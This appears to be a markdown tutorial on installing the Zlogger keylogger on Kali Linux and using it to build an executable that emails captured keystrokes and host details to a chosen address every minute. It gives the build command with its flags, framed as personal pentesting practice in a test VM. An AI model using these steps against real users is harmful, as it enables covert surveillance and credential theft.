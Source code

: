 # Zlogger In Action
_Zlogger_ is a popular keylogging tool that's used primarily for learning and pentesting on personal networks. The creators have a [Github page](https://github.com/z00z/ZLogger) where we can easily download the tool. Their github page also contains a plethora of information that may not be included in this small tutorial. In this section, I will guide readers through my short  experience with Zlogger in hopes of offering something interesting or useful.

I performed all of these commands using Kali-Linux. These commands may or may not differ slightly depending on factors like OS and python version currently installed. 

---
## Downloading Zlogger
To start, head over to the _Zlogger_ Github page linked above. Next, we can clone the repository. In my case I cloned the repository to my Kali virtual machine. 

![image](https://user-images.githubusercontent.com/46944661/117089562-798df200-ad1b-11eb-841a-698e883d7f0c.png)

After doing this, we'll have a new directory created on our machine. If we type 'ls', we SHOULD see the newly created _Zlogger_ directory. Inside this directory there's a file called 'install.sh'. In order to run it, we must make the file executable. Use the command 'chmod +x install.sh' to make it an executable, and then run the file using './install.sh'. This may take some time, let the process run, agree + confirm any popups and once it's done Zlogger will now be usable.

## Create Our Keylogging File
Let's familiarize ourselves with our new tool. Since Zlogger is a python based program, we must use 'python' followed by Zlogger.py and whatever flags we'd like to specify. Running the command 'python zlogger.py -h' displays a handy menu that we can read and learn how to use Zlogger.

![image](https://user-images.githubusercontent.com/46944661/117090613-6af50a00-ad1e-11eb-87a1-a1a35ef08b9b.png)

>**NOTE:** *When testing, it seems that in my case '-i' or INTERVAL was required to avoid an error being thrown, despite the above image stating that interval is optional.*
*It's strongly recommended before continuing to create an email account for the sole purpose of using this keylogger else you run the risk of flooding your email address with the logs Zlogger sends.*

To get our keylogger file output to us, we must provide information to the tool. I typed 'python3 zlogger.py -i 60 -l -e [EMAILGOESHERE] -p [EMAILPASSWORDGOESHERE] -o ThisIsATest' and then hit enter. The -i flag indicates an interval of 60 seconds, which means every minute we will receive a new log file emailed to us. The -l flag tells Zlogger that we'd like the output file to be for Linux machines. The -e and -p flags should be for the emailaddress and password for the email address, while -o is the name of the output file. After hitting enter, this is what we're met with.

![image](https://user-images.githubusercontent.com/46944661/117171177-43d72080-ad90-11eb-8ef1-a1aafa8ed6d3.png)

Another use of 'ls' shows that our output file was created successfulyl. Although Zlogger stated that the -l flag would create a Linux executable, I had to execute 'chmod +x ThisIsATest' in order to be able to run the keylogger on my machine.

## Using The Keylogger File
So we've got our output file - now we've got to run it on our machine. I highly recommend running the file on a separate machine, although I chose to run it on my current virtual machine I've created for testing purposes. To start the keylogger, all we have to do is type 'python3 [OUTPUTFILENAME]' and the keylogger starts up. 

![image](https://user-images.githubusercontent.com/46944661/117227229-f54f7380-addb-11eb-91d6-03b6c354f0dc.png)

In the screenshot above, I typed some things just so I can have logs to review once they're sent to my email address. After waiting a couple minutes, we can see that log files have been delivered. The next screenshot shows the first log file, which is basically a confirmation that it's running and grabs the OS of the machine it's being run on as well as the name of the machine & the user.

![image](https://user-images.githubusercontent.com/46944661/117227406-5b3bfb00-addc-11eb-809b-92b7d0f43fa8.png)
![image](https://user-images.githubusercontent.com/46944661/117227438-68f18080-addc-11eb-890c-a5cc39460d7f.png)
![image](https://user-images.githubusercontent.com/46944661/117227499-89b9d600-addc-11eb-8afb-ca2bd2546945.png)


